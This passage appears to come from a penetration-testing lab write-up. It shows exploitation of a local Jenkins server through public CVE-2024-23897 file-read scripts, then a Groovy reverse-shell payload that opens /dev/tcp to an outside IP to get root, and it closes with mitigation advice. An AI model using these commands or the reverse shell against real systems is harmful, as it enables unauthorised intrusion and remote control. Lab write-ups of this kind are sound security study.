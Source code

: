 Now accessing the server we see that it runs jenkins instance:

![image.png](image%2013.png)

It requires Jenkins `initialAdminPassword` which is given by Jenkins itself to the user when setting it up.

We need to read that file to see the password and proceed.

I have seen the version of Jenkins before, which is `2.401.2` I am gonna search for public exploits for it.

I found this [PoC](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability), I am gonna give it a try.

I tried it and it actually worked:

```bash
python3 CVE-2024-23897.py -u http://127.0.0.1:8081/ -f /etc/passwd
```

![image.png](image%2014.png)

But it failed with `/root/.jenkins/secrets/initialAdminPassword`.

I found another one https://github.com/godylockz/CVE-2024-23897

```bash
python3 jenkins_fileread.py -u http://127.0.0.1:8081
```

![image.png](image%2015.png)

![image.png](image%2016.png)

Actually I can read `proof.txt` but I am gonna try to get a shell as root:

![image.png](image%2017.png)

After setting up Jenkins let’s use Groovy scripts to get reverse shell:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/192.168.45.227/21; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![image.png](image%2018.png)

![image.png](image%2019.png)

After executing it now we are root!

## Mitigation

- **Sanitize Inputs:** Prevent SQL injection by using parameterized queries or ORM frameworks.
- **Secure File Uploads:** Enforce strict MIME type validation, file extension filtering, and use server-side verification for uploads.
- **Credential Management:** Avoid storing plaintext passwords in web-accessible locations and enforce password complexity.
- **Restrict Internal Services:** Limit local-only services like Jenkins to internal interfaces and secure them with firewalls.
- **Jenkins Hardening:** Disable script console in production environments and apply file access restrictions.
- **Use Principle of Least Privilege:** Minimize user permissions and monitor lateral movement potential.
- **Regular Patching:** Keep web applications, CMS, and CI tools like Jenkins updated to patch known vulnerabilities.
